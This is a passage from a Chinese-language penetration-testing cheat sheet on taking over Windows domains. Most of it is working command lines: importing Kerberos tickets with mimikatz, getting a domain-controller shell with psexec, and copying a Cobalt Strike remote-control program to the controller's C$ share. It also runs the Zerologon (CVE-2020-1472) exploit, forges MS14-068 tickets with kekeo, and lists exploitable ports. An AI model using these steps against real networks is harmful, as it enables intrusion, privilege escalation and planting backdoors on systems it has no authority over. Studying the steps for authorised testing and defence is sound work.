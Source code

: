 使用mimikatz可以导入票据：

```shell
mimikatz.exe "kerberos::ptc TGT_temp@k4ys0n.com.ccache" exit
```

导入完成输入以下命令查看当前导入票据：

```shell
klist
```

#### 4. psexec提权为域控的administrator账户

```shell
psexec.exe \\AdServer.k4ys0n.com cmd
```

#### 5. 拷贝远控程序xxx.exe到根目录

```shell
copy ./xxx.exe \\AdServer.cleverbao.com\c$        # 拷贝到c盘
# 或者
copy ./xxx.exe \\AdServer.cleverbao.com\c$\users\    # 拷贝到c盘下的users目录
```

远控程序可以用cobaltstrike生成。



## 0x0d CVE-2020-1472

github上可以下载exp，也是域控提权

```shell
python exp.py k4ys0n.com 10.10.30.30
psexec.exe \\10.10.30.30 cmd
```

参考exp如：

- [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)
- [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
- [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)



## 0x0e kekeo 域内主机提权

kekeo工具功能类似ms14-068.exe

下载链接：[https://github.com/gentilkiwi/kekeo](https://github.com/gentilkiwi/kekeo)

- 生成票据功能

```shell
kekeo.exe "exploit::ms14068 /user:[账户名] /password:[密码] /sid:[sid] /ptc" exit
# 例如：
kekeo.exe "exploit::ms14068 /user:temp /password:123456 /sid:S-x-x-xx-xxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-xxxx /ptc" exit
```

其他功能同ms14-068.exe。



## 0x0f 常见windows存在的漏洞端口

- 445 ms17-010 永恒之蓝（windows 10 以前）
- 3389 CVE-2019-0708 BlueKeep（windows7/windows2008）
- 445 ms08-067（windows2008以前）
